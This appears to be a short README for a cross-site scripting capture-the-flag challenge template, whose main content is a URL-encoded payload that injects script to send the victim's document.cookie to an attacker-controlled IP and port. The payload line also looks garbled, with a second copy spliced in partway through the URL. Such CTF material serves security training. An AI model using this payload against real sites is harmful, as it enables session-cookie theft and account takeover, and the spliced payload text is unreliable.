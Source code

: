 # Template for XSS CTF Challenges

- Author: sharkmoos

Entering the following payload will trigger the XSS bot (substituting in the attackers IP and PORT):

```
http://127.0.0.1:1337/%3Cscript%3Edocument.write('%3Cimg%20src=%22http://IP:PORT/?cookie=%27%20+%20document.cookie%20+%20%27%22%20/%3E%27)%3C/script%3E0.1:1337/%3Cscript%3Edocument.write('%3Cimg%20src=%22http://127.0.0.1:9999/?cookie=%27%20+%20document.cookie%20+%20%27%22%20/%3E%27)%3C/script%3E
```
